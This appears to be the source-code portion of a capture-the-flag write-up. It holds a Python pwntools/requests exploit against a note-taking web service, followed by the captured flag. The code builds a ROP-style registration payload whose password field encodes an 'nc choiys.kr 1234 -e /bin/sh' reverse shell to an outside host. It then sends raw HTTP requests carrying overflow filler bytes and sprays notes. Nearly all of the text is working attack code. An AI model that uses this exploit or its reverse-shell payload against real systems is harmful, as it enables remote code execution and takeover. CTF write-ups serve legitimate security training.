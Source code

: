 ```py
passwd += b'00000000'
passwd += b'/bin/nc0'
passwd += b'choiys.kr0'
passwd += b'12340'
passwd += b'-e0'
passwd += b'/bin/sh0'

user_info = {
    "username" : username_rop,
    "password" : passwd,
}

log.info(f"username : {user_info['username']}")
log.info(f"password : {user_info['password']}")

register = b'''POST /register HTTP/1.1\r
Host: 34.107.93.11:32462\r

username=%b&password=%b''' % (user_info['username'], user_info['password'])

p = remote(host, port)
p.send(register)
p.close()


def add_note(data, debug=False):
    # assert len(data) <= 0x20
    res = requests.post(url+b'/add_note', data={'note_content': data})
    if res.status_code == 200:
        log.info(f'add_note : {data}')
    if debug:
        print(res.request.headers)
        print(res.text)
        
def delete_note(idx):
    res = requests.post(url+b'/delete_note&index=' + idx)
    if res.status_code == 200:
        log.info(f'delete_note {idx} : {res.status_code}')

# add_note(b'A' * 0x20)

for i in range(49):
    add_note(b'B' * 0x20)

pay = b'''POST /add_note HTTP/1.1\r\nHost: localhost:1339\r\nUser-Agent: python-requests/2.32.3\r\nAccept-Encoding: gzip, deflate, zstd\r\nAccept: */*\r\nConnection: keep-alive\r\nContent-Length: 87\r\n\r\nnote_content='''
pay += b'A' * 6
pay += b'00000\x20\x21\x4d'
pay += b'\x20\x21\x4d00000'

p = remote(host, port)
p.send(pay)
p.close()

add_note(b'B' * 0x20)
```
{{< admonition note "flag" true >}}
`CTF{5b442e245aa97225a1b6be072b9e29a5ee5260ddeea7dbd06eb08433c07c5b39}`
{{< /admonition >}}

